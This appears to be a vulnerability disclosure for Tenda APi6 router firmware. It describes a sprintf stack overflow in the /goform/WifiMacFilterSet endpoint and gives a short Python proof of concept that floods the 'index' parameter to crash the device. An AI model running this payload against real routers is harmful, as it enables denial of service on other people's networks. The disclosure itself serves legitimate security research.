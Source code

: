 # Tenda APi6 V1.0.0.8(3856) Stack Overflow
## Firmware information

Manufacturer's address:https://www.tenda.com.cn/

Firmware download address: https://www.tenda.com.cn/download/detail-2570.html

## Affected Version

<img width="1019" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/fc20290f-e5e4-4e62-9609-b6077b2df1fc">

##  Vulnerability Details

 Vulnerability Location: /goform/WifiMacFilterSet


 The length of the ndex parameter is not verified, sprintf can cause stack overflow vulnerability, it can result in dos attacks on routers.

 <img width="416" alt="image" src="https://github.com/daodaoshao/vul_tenda_i6_2/assets/9769854/645f41ed-abfe-4e56-925e-278f5576ae5b">



The pages of the router 

<img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/a9150774-f16b-4550-8864-3abf91eef125">

## POC 

```python
import requests
from pwn import*

ip = "192.168.182.21" 
url = "http://" + ip + "/goform/WifiMacFilterSet"
print(url)

payload =b'a'*0x3000


cookie = {"Cookie":"user="}
data = {"index": payload,"wl_radio":0}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
``` 





